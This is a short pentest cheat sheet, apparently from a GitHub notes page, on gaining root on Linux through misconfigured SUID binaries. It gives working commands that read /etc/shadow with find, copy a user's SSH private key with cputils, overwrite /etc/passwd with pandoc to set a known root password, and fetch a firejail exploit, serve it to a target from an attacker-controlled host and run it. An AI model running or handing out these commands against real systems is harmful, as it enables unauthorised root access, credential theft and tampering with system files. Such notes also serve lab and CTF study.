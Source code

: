 If you'll get some SUID files, research the information of them using **[GTFOBins](https://gtfobins.github.io/)**.

### Find

If the "find" command is set as SUID, you can execute some commands as root privileges.

```sh
find ./ -exec "whoami" \;
find /etc/shadow -exec cat {} \;
find /root -exec ls -al {} \;
```

### Cputils

If the "cputils" is set as SUID, you can copy the sensitive file to another one. 

```sh
cputils

Enter the name of source file: /home/<user>/.ssh/id_rsa
Enter the name of target file: /tmp/id_rsa
```

### Pandoc

1. Copy **`/etc/passwd`** and Update the Root Line

```bash
cp /etc/passwd .
vim passwd
```

Then update  **"root:x:..."** to **"root:password123:..."**.

2. Replace with Our New Passwd File

Using **`pandoc`** command, we can replace the original **`/etc/passwd`** with our updated **`passwd`** file.

```sh
pandoc ./passwd -t plain -o /etc/passwd
```

Now we can login as root using new password.

```bash
su root
Password: password123
```

### Firejail

[This exploit](https://www.openwall.com/lists/oss-security/2022/06/08/10/1) is useful.

```bash
# Download it in local machine
wget https://www.openwall.com/lists/oss-security/2022/06/08/10/1 -O exploit.py

# Transfer it to target machine
wget http://<local-ip>:8000/exploit.py
python3 exploit.py &
firejail --join=<PID>
su -
```

